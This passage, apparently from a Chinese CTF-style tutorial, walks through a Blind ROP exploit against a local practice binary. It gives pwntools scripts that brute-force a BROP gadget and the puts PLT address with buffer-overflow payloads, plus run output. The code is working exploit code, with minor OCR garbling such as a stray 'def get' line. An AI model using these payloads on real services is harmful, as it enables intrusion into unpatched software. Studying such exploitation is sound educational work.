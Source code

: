 ```bash
def get
while 1:
    print hex(addr)
    if get_brop_gadget(buffer_length, stop_gadget, addr):
        print 'possible brop gadget: 0x%x' % addr
        if check_brop_gadget(buffer_length, addr):
            print 'success brop gadget: 0x%x' % addr
            break
    addr += 1
```

```bash
[+] Starting local process './brop': pid 120700
[*] Process './brop' stopped with exit code -11 (SIGSEGV) (pid 120700)
success brop gadget: 0x4007ba
```

5、寻找 puts 或 write 函数的 plt，用于 leak 其它地址的值

```bash
#-*- coding: utf-8 -*-
from pwn import *
from LibcSearcher import LibcSearcher
#context.log_level = 'debug'
#context.arch = 'i386'/'amd64'

## buffer_length = getBufferLength()
buffer_length   = 72
## stop_gadget = getStopAddr(buffer_length)
stop_gadget = 0x4005c0
brop_gadget = 0x4007ba
pop_rdi_ret  = brop_gadget + 9  #解释如下

def GetPutsPlt(buffer_length,stop_gadget,pop_rdi_ret):
    addr = 0x400500
    while 1:
        print(hex(addr))
        try:
            p = process('./brop')
            p.recvuntil('Do you know password?\n')
            payload = 'a'*buffer_length + p64(pop_rdi_ret) + p64(0x400000) + p64(addr) + p64(stop_gadget)
            p.sendline(payload)
            output = p.recv()
            p.close()
            if output.startswith('\x7fELF'):#在没有 PIE 保护的时候，64 位程序的 ELF 文件的 0x400000 处有 7 个非零字节。
                print('puts plt address = 0x%x' % addr)
                return addr
            addr += 1
        except Exception:
            p.close()
            addr += 1

puts_plt_addr = GetPutsPlt(buffer_length,stop_gadget,pop_rdi_ret)
```
